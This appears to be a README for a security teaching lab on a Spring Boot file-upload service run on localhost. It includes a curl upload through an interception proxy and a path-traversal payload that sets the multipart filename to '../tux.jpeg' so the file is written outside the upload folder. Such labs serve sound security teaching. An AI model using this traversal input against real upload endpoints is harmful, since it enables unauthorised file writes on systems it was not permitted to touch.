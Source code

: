 # File Upload

## Setup 

We can start the service as a separate process:
```
$ mvn spring-boot:run
```

## Attacking the File Upload

To upload a file we can use the following `curl` statement:

```
$ curl -ki --proxy http://localhost:8010 -F "file=@./images/tux.jpeg" https://localhost:8443/upload
```

### Path Traversal Attack
To perform the attack, use the interception proxy and change
the filename:
```
Content-Disposition: form-data; name="file"; filename="../tux.jpeg"
Content-Type: image/jpeg
```
The file is saved parallel to the `upload/` folder.


## References

*Egon Teiniker, 2016-2024, GPL v3.0*
